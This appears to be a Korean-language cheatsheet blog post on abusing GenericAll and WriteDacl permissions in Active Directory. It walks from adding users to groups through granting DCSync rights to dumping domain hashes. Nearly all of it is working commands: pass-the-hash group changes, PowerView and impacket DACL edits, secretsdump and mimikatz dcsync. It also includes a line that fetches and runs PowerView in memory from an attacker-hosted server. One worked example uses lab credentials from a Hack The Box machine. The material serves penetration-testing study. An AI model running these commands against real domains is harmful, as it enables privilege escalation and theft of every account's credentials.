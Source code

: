 ```yaml
---
title: "How to abuse GenericAll / WriteDacl permission on Active Directory"
date: 2025-10-03
categories: [cheatsheet]
tags: [AD, bloodhound, permission]
---
```


![1](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%202.59.57.png)

상황 예시: BloodHound에서 GenericAll → target group, 그 그룹이 WriteDACL 권한을 도메인에 가지고 있어 DCSync 권한 부여로 이어지는 체인.

> 메모: PowerView in-memory 로드
```
# 공격자(예: Kali)에서 python3 -m http.server 8000 실행 후, 타겟에서 직접 로드
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.8:8000/PowerView.ps1')
```

## GenericAll abuse

#### Linux (Samba / rpc 모듈 사용)

목적: GenericAll 권한을 이용해 대상 그룹에 사용자 추가
```
# 일반 계정/비밀번호 사용
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-hash (LM:NT 해시) 사용 예시 (pth-net 포함)
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

확인
```
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

PoC
![2](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%203.41.26.png)

#### Windows (PowerView)

Credential 생성
```
$SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

그룹 멤버 추가
```
Add-DomainGroupMember -Identity 'target_group' -Members 'target_member' -Credential $Cred
```

확인
```
Get-DomainGroupMember -Identity 'target_group'
```

실제 예 (htb forest machine 풀이 중)
```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)

# 이미 svc-alfresco로 로그인한 세션이면 Credential 생략 가능
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco' -Credential $Cred

Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'
```

![4](/assets/images/cheatsheet/abuse_dacl/스크린샷%202025-10-04%20오후%203.50.08.png)

## WriteDacl abuse

#### Linux (impacket)

impacket-dacledit 를 이용해 도메인 오브젝트의 DACL을 수정하여 DCSync 권한 부여
```
impacket-dacledit -action 'write' -rights 'DCSync' -principal 'target_user' -target-dn 'DN' domain/'user':'pass'
```

#### Windows (PowerView)

Credential 준비
```
$SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

도메인 오브젝트의 DACL에 DCSync 권한 추가
```
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'target_user' --TargetIdentity 'domainDN' -Rights DCSync
```

원라인 스크립트 예시
```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco';
Start-Sleep -Seconds 2;
$Sec = ConvertTo-SecureString 's3rvice' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $Sec);
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'HTB\svc-alfresco' -TargetIdentity 'DC=htb,DC=local' -Rights DCSync
```

Add-DomainObjectAcl 사용 시 -PrincipalIdentity로 유저를 지정해야 정상 동작.

-TargetIdentity는 도메인명 문자열이 아닌 DN(DC=htb,DC=local) 형식으로 지정해야 정상 동작.

## DCSync
#### Linux
```
impacket-secretsdump domain/user:pass@target_ip
```
#### Windows
mimikatz.exe 사용
```
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:htb.local /user:Administrator
```
